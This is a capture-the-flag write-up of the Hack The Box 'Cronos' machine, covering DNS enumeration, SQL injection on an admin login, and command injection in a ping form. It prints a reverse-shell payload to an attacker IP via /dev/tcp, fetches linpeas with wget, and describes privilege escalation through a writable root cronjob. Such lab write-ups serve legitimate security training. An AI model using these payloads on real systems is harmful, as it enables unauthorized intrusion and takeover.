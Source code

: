 ```yaml
---
title: Hackthebox - Cronos (Medium)
date: 2023-03-24 12:00:00 +0100
categories: [HackTheBox, Write up]
tags: [linux, nmap,]     # TAG names should always be lowercase
img_path: /img/HTB/Cronos/
image: Cronos.png
---
```


## Enumeration

### Nmap 

```zsh
┌──(root㉿kali)-[/home/desmond]
└─# nmap -sC -sV -A 10.10.10.13      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-24 12:12 CDT
Nmap scan report for 10.10.10.13
Host is up (0.074s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=3/24%OT=22%CT=1%CU=32995%PV=Y%DS=2%DC=T%G=Y%TM=641DDA2
OS:0%P=aarch64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS
OS:=8)OPS(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M
OS:539ST11NW7%O6=M539ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=71
OS:20)ECN(R=Y%DF=Y%T=40%W=7210%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
OS:=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Let's start enumerating dns on port 53, we can do it using nslookup:

```terminal
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```
We discovered the domain name cronos.htb, as always let's add it on `/etc/hosts`.

Now we can use dig to enumerate any dns record with
`dig any victim.com @<DNS_IP>`, in our case:

```terminal
dig any cronos.htb @10.10.10.13

; <<>> DiG 9.18.8-1-Debian <<>> any cronos.htb @10.10.10.13
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 19215
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;cronos.htb.                    IN      ANY

;; ANSWER SECTION:
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13

;; ADDITIONAL SECTION:
ns1.cronos.htb.         604800  IN      A       10.10.10.13

;; Query time: 104 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Fri Mar 24 12:18:44 CDT 2023
;; MSG SIZE  rcvd: 131

```
To learn more on dns enumeration [](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns).

Doing so we discovered the admin subdomain `admin.crono.htb`.
Now our `/etc/hosts` row is like that:
`10.10.10.13 cronos.htb admin.cronos.htb`
Vising cronos.htb is useless, instead on the admin subdomain we have a login form, and the user is vulnerable to sql injection.
Once in, we can use two commands ping and traceroute, and there is a rce just by doing ; at the end, and we can add our code. I got a reverse shell with
```
8.8.8.8; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.18/2332 0>&1"
```

Now we are `www-data` we have to priv esc.

We use a trick to get a better shell
```terminal
www-data@cronos:/tmp$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@cronos:/tmp$ ^Z
zsh: suspended  nc -lvnp 2332
                                                                                                                                                       
┌──(root㉿kali)-[/home/desmond]
└─# stty raw -echo ;fg
[1]  + continued  nc -lvnp 2332
                               reset
reset: unknown terminal type unknown
Terminal type? screen

```
 Now we can use arrows and tab completition.

 Since we have wget, lets host on our machine a python server with `python -m http.server 2323` and get linpeas.sh on the target machine:
 ```terminal
 www-data@cronos:/tmp$ wget http://10.10.14.18:2323/linpeas.sh
--2023-03-24 19:31:37--  http://10.10.14.18:2323/linpeas.sh
Connecting to 10.10.14.18:2323... connected.
HTTP request sent, awaiting response... 200 OK
Length: 765823 (748K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 747.87K   467KB/s    in 1.6s    

2023-03-24 19:31:39 (467 KB/s) - 'linpeas.sh' saved [765823/765823]

 ```
Let's give it permissions to get executed with `chmod +x linpea.sh` and run it `./linpeas.sh`.

Looking at linpeas.sh result we see we have a yellow line (the most dangerous one):
```                                                                              * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1 ```
So we have a cronjob run as root that launch  `/var/www/laravel/artisan` with php.

Checking the permission for `/var/www/laravel/artisan` we see that www-data can is the owner of the file, so we can change it by adding a php reverse shell, that will run as root.

And after a while we'll recive the root shell on our machine!



